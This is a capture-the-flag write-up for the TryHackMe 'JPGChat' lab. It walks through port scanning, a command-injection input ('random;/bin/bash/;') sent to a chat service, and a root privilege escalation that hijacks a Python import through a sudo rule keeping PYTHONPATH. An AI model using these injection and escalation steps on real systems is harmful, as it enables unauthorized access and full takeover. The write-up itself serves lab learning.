

# _TRYHACKME (JPGChat)_

IP
```
10.10.xx.xxx
```

ENUMERATION: <br />
- RUSTSCAN <br>
  rustscan -r 1-65535 -a IP -u 5000 -- -A <br />


Interesting port from rustscan: <br>
- 22, 3000

> ## user.txt

Let's netcat to the port

```
nc IP 3000
```
Enumerating in GitHub for JPGChat we get source code to the service running at 3000

<br>


<br >

```
random;/bin/bash/;
cat /home/wes/user.txt
```

<br>

>## root.txt <br >

<br >

sudo -l 

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

We can run test_module.py as root, So let's check the code in the script

```
from compare import *
print(compare.Str('hello', 'hello', 'hello'))
```

<br >

The scripts imports a library(compare), we need to create a compare.py(/home/wes/compare.py) file to hijack the library to get root privilege:

```
import os
os.system("/bin/bash")
```

Then run the python script as root

```
sudo PYTHONPATH=/home/wes /usr/bin/python3 /opt/development/test_module.py
```